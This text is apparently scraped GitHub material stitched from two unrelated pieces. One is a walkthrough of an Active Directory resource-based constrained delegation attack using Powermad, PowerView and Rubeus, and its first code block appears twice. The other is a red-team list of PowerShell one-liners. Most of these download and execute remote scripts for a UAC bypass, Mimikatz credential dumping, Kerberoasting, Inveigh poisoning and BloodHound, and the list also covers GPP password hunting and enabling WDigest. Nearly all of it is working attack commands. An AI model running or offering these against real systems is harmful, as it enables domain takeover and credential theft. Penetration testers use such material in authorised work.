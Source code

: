 $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
AllExtendedRights on a computer object can be used to perform a resource based constrained delegation attack.

Abusing this primitive is possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can be used to add a new attacker-controlled computer account:

New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE:

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over, again using PowerView in this case:

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

Rubeus.exe hash /password:Summer2018!
And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:

Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt







# Description: 
#    Collection of PowerShell one-liners for red teamers and penetration testers to use at various stages of testing.

# Invoke-BypassUAC and start PowerShell prompt as Administrator [Or replace to run any other command]
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"

# Invoke-Mimikatz: Dump credentials from memory
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

# Import Mimikatz Module to run further commands
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

# Invoke-MassMimikatz: Use to dump creds on remote host [replace $env:computername with target server name(s)]
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

# PowerUp: Privilege escalation checks
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”

# Invoke-Inveigh and log output to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"

# Invoke-Kerberoast and provide Hashcat compatible hashes
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"

# Invoke-ShareFinder and print output to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"

# Import PowerView Module to run further commands
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"

# Invoke-Bloodhound
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"

# Find GPP Passwords in SYSVOL
findstr /S cpassword $env:logonserver\sysvol\*.xml
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)

# Run Powershell prompt as a different user, without loading profile to the machine [replace DOMAIN and USER]
runas /user:DOMAIN\USER /noprofile powershell.exe

# Insert reg key to enable Wdigest on newer versions of Windows
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1


